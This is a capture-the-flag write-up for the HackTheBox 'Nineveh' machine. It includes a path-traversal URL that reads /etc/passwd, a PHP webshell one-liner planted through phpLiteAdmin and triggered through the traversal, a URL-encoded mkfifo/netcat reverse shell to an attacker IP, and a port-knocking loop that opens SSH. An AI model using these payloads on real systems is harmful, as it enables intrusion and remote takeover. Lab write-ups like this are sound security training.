# Nineveh -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Nineveh (HackTheBox)
**Author:** dsec
**Date:** 2024-03-21

---

## TL;DR

### Brute-forced web logins on two separate services (phpLiteAdmin and /department), chained LFI with a PHP webshell planted via phpLiteAdmin to get RCE. Port knocking opened SSH, and privesc came through a chkrootkit cron job.

---

## Target info

- Services discovered: `22/tcp (ssh, filtered)`, `80/tcp (http)`, `443/tcp (https)`

---

## Enumeration



Found username `admin` on the web app.



phpLiteAdmin on port 443:





- Login works but no useful info in the database. Attempted the phpLiteAdmin exploit but could **not** access the file path to the newly created db.
- Created `hack.php` database with a table entry containing `<?php phpinfo()?>` based on the exploit.
- Could see the file path of the db in the URL, but could **not** LFI yet.



Ran feroxbuster:



Found `/department`:





- `admin:1q2w3e4r5t`

---

## Exploitation

This also works somehow:





LFI via the `notes` parameter:

```
http://target/department/manage.php?notes=files/ninevehNotes/../../../../../../etc/passwd
```



- Needs 6-8 `../` to work.



- The `N` in `Notes` must be capitalized to work.

Added `shell.php` with `<?php system($_REQUEST["cmd"]); ?>` to phpLiteAdmin (needed double quotes, single quotes **did not** work). Changed column type to TEXT.





Triggered the webshell via LFI:

```
http://target/department/manage.php?notes=/ninevehNotes/../var/tmp/shell.php&cmd=id
```

- Uses `&` instead of `?` for the cmd parameter.



Reverse shell via URL-encoded mkfifo:

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.172%20443%20%3E%2Ftmp%2Ff
```



---

## Port knocking & SSH

`ps -auxww` shows `/usr/sbin/knockd` running. Config at `/etc/knockd.conf`:



- Open SSH by hitting ports 571, 290, then 911 with SYNs within 5 seconds.

```bash
for i in 571 290 911; do
  nmap -Pn --host-timeout 100 --max-retries 0 -p $i 10.129.222.16 >/dev/null
done; ssh -i id_rsa amrois@10.129.222.16
```



- Worked on the second attempt.

---

## Privilege escalation

Privesc via chkrootkit:

- `pspy` shows processes running every minute referencing `/usr/bin/chkrootkit`.

---

## Lessons & takeaways

- When you find LFI and a way to write files (like phpLiteAdmin), chain them together for RCE
- Pay attention to case sensitivity in parameters -- the capital `N` in `Notes` was required
- Port knocking is rare but check for `knockd` in running processes if SSH is filtered
- Always check cron jobs and recurring processes with `pspy` for privesc vectors
